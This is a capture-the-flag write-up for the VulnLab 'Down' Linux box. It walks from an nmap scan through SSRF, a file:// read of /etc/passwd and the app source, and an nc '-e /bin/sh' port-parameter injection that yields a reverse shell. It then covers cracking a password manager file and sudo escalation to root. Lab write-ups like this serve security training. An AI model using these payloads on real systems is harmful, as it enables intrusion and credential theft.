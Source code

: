 ```yaml
---
title: VulnLab -- Down Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: ../images/Down-banner.png
---
```

# Down

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Down** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/down-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.80.76
```

![image.png](../images/down.png)

Now let’s go and enumerate the website running on port 80

![image.png](../images/down%201.png)

The web application has a simple functionality that check if the website is down or not.

Now let’s open a http server and try to request ourselves

```bash
python3 -m http.server 80
```

![image.png](../images/down%202.png)

Now let’s enter our host in the application

```bash
http://10.8.5.233
```

![image.png](../images/down%203.png)

Now let’s see if we go a request!

![image.png](../images/down%204.png)

and we Did!

Now let’s try Server-Side Request Forgery (SSRF)

```bash
http://127.0.0.1
```

![image.png](../images/down%205.png)

Okay nice we got a response back.

Now let’s try to fuzz the localhost ports using FFUF

First let us create a port wordlist

```bash
for i in {1..65535}; do echo $i >> ports.txt; done
```

![image.png](../images/down%206.png)

Now let’s use FFUF

```bash
ffuf -u "http://10.10.80.76/index.php" -X POST --data "url=http://127.0.0.1:FUZZ" -w ports.txt -fw 131
```

![image.png](../images/down%207.png)

Unfortunately no luck! 😓

Let’s go back to our website and try to add the file wrapper after the valid URL

```bash
http://10.8.5.233/ file:///etc/passwd
```

![image.png](../images/down%208.png)

and we did it we have a Local File Inclusion so let’s go and read the source code of the application.

```bash
http://10.8.5.233/ file:///var/www/html/index.php
```

![image.png](../images/down%209.png)

> Amazing! we got the application source code.
> 

Now let’s start analysis.

```php
if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">'; 
```

![image.png](../images/down%2010.png)

> Notice that there is an advanced feature named expertmode this allow us to execute nc in the server terminal
> 

now let’s try to abuse it

First go to the website and enable the expert mode through the expertmode GET parameter.

```bash
http://10.10.80.76/index.php?expertmode=tcp
```

![image.png](../images/down%2011.png)

notice that the design changed!

Now open a listener on your machine 

```bash
nc -nlvp 1337
```

![image.png](../images/down%2012.png)

no go back to the website and enter you IP in the IP filed and you port in the port tab and intercept the request.

![image.png](../images/down%2013.png)

Now let’s intercept the request.

![image.png](../images/down%2014.png)

now in the port parameter append the following

```bash
-e /bin/sh
```

![image.png](../images/down%2015.png)

That will till the nc to execute the bash to us.

now send and go back to our listener.

![image.png](../images/down%2016.png)

now let’s stable the shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](../images/down%2017.png)

now press CTRL + Z

![image.png](../images/down%2018.png)

now let’s enter this in the terminal

```python
stty raw -echo;fg
```

![image.png](../images/down%2019.png)

last enter this command

```python
export TERM=xterm
```

![image.png](../images/down%2020.png)

now we got full stable shell

also we got the flag yeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeah!

![image.png](../images/down%2021.png)

now let’s try to get root privilege

navigate to the local user directory

```python
cd /home/aleks/.local/share/pswm
```

![image.png](../images/down%2022.png)

Notice that we found the user password manager so let’s use pswm-decryptor to decrypt it.

```python
cat pswm
```

![image.png](../images/down%2023.png)

now let’s run the decryptor

```python
python3 pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt 
```

![image.png](../images/down%2024.png)

notice that we decrypted the passwords and got the password for the user Aleks.

Now let’s login via SSH

```python
ssh aleks@10.10.80.76
```

![image.png](../images/down%2025.png)

and we logged it! 

Now let’s try to see our privileges on the machine

```python
sudo -l
```

![image.png](../images/down%2026.png)

notice that we can run everything as root!

```python
sudo su
```

![image.png](d../images/own%2027.png)

now let’s cd to the root directory and see the flag!

```python
cd /root;ls -las
```

![image.png](../images/down%2028.png)

Amazing I did it!

![image.png](../images/down%2029.png)

That’s it for the **Down** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX